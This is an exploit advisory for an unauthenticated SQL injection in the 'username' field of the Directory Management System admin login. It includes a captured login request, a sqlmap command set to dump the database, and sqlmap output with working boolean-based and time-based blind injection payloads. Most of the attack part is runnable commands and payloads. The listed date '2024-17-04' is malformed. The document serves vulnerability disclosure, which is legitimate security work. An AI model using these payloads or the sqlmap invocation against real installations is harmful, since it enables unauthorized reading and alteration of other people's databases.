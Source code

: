 # Directory Management System - SQL Injection - 1 (Unauthenticated)
+ **Exploit Title:** Directory Management System - SQL Injection - 1 (Unauthenticated)
+ **Date:** 2024-17-04
+ **Exploit Author:** Burak Sevben
+ **Vendor Homepage:** https://phpgurukul.com/directory-management-system-using-php-and-mysql/
+ **Software Link:** https://phpgurukul.com/?sdm_process_download=1&download_id=9346
+ **Version:** Latest
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58
+ **CVE:** Reported, waiting for CVE number.

## Description:
Directory Management System allows SQL Injection via the 'username' parameter at "http://localhost/dms/admin/index.php". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://localhost/dms/admin/index.php"
+ Try logging in by typing random things
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
POST /dms/admin/ HTTP/1.1
Host: localhost
Content-Length: 39
Cache-Control: max-age=0
sec-ch-ua: "Not A(Brand";v="24", "Chromium";v="110"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/dms/admin/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: language=en; continueCode=5vLeVxlRzkNb47vKDPMo5Lq8wdzLtvf1Hem0jn6EZm2ygrX19BpaQWOJY3oM; welcomebanner_status=dismiss; cookieconsent_status=dismiss; PHPSESSID=cc12r4c7k38a4endfa1btuk5he
Connection: close

username=test&password=test&login=login

```

+ Use sqlmap to exploit. In sqlmap, use 'username' parameter to dump the database.
```
sqlmap -r r.txt -p username --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: username=test' OR NOT 7317=7317-- tNGi&password=test&login=login

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=test' AND (SELECT 5819 FROM (SELECT(SLEEP(5)))LSok)-- rSbX&password=test&login=login
---
[20:05:30] [INFO] the back-end DBMS is MySQL
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[20:05:30] [INFO] fetching current database          
current database: 'dmsdb'

```
+ current database: `dmsdb`

![Ekran görüntüsü 2024-05-19 181035](https://github.com/BurakSevben/CVEs/assets/117217689/df7c73bb-9645-44be-b45a-7c86d4c18267)
